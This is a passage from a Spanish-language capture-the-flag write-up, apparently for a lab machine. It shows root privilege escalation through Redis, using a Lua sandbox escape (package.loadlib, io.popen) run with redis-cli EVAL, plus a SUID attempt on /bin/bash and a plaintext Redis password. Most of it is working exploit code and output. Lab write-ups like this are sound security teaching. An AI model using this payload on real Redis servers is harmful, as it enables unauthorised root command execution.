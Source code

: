 Ahora procedemos a la explotación:

> Código `lua` que useremos

```lua
# Guardamos en una variable el nombre de inicialización del paquete Lua que usaremos
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); 

# Inicializamos el paquete guardándolo en una variable
local io = io_l();

# Accedemos a la función 'popen' que nos permite ejecutar comandos {command} mostrando como output un archivo
local f = io.popen("{command}", "r"); 

# Leemos el archivo y guardamos su contenido
local res = f:read("*a"); 

# Cerramos el archivo
f:close(); 

# Retornamos la salida del comando
return res
```

> Entramos a la interfaz de redis `redis-cli` y usando el comando **EVAL** ejecutamos el script anterior con el comando `whoami`:

```console
dan_smith@shared:/tmp$ redis-cli -a F2WHqJUz2WEz=Gqq
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
127.0.0.1:6379> EVAL 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("whoami", "r"); local res = f:read("*a"); f:close(); return res' 0
"root\n"
127.0.0.1:6379> 
```

> El '0' del final indica que no pasamos ningún argumento al script
{: .prompt-info}

Conseguimos ejecutar comandos como el usuario `root`, ahora tenemos que buscar una manera ganar acceso completo a una shell

> Intentamos asignarle permisos **SUID** a la bash pero no logramos que funcione

```console
127.0.0.1:6379>  EVAL 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("chmod u+s /bin/bash", "r"); local res = f:read("*a"); f:close(); return res' 0
""
127.0.0.1:6379>  EVAL 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ls -l /bin/bash", "r"); local res = f:read("*a"); f:close(); return res' 0
"-rwxr-xr-x 1 root root 1234376 Mar 27 14:40 /bin/bash\n"
```
